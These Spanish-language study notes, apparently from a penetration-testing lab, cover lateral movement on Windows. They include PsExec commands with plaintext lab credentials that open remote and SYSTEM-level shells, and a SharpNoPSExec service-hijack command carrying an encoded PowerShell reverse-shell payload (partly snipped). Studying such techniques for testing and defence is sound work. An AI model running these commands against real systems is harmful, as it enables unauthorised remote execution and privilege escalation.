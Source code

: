 # Necesidades

- Privilegios de administrador local


# Desde windows

### PsExec

Es una herramienta parte del Sysinternals suite. 

1. Establece un link en la carpeta ADMIN$ (c:\windows) mediante SMB
2. Usa el service control manager(SCM) para iniciar el servicio PsExecsvc y setea un pipe.
3. Redirige los ingresos en la consola mediante el pipe.

##### Uso

    .\PsExec.exe \\SRV02 -i -u INLANEFREIGHT\helen -p RedRiot88 cmd

Si queremos ejecutarlo como NT AUTHORITY\SYSTEM

    .\PsExec.exe \\SRV02 -i -s -u INLANEFREIGHT\helen -p RedRiot88 cmd

### SharpNoPSExec

**Mejora el anonimato** aprovechando servicios que ya están corriendo en el host. 

No genera una shell de por sí, con lo que tendremos que generarla nosotros agregando un payload de revshell.

1. Busca todos los servicios en el host.
2. Identifica todos los que tienen el start como "disable" o "manual", que su estado es stopped y sean corridos con privilegios de LocalSystem.
3. Selecciona uno, modifica el path al binario del mismo para apuntar a un payload dado por el atacante.
4. Luego de la ejecución, espera 5 segundos para volver el servicio a su path original.

Por defecto usa las creds del user que está corriéndolo. Si quisieramos hacerlo con otro user podemos agregar las flag "--username", --"password" y "--domain"

    .\SharpNoPSExec.exe --target=172.20.0.52 --payload="c:\windows\system32\cmd.exe /c powershell -exec bypass -nop -e ...SNIP...AbwBzAGUAKAApAA=="

### NimExec

# Continuará después de comerme un alto asado
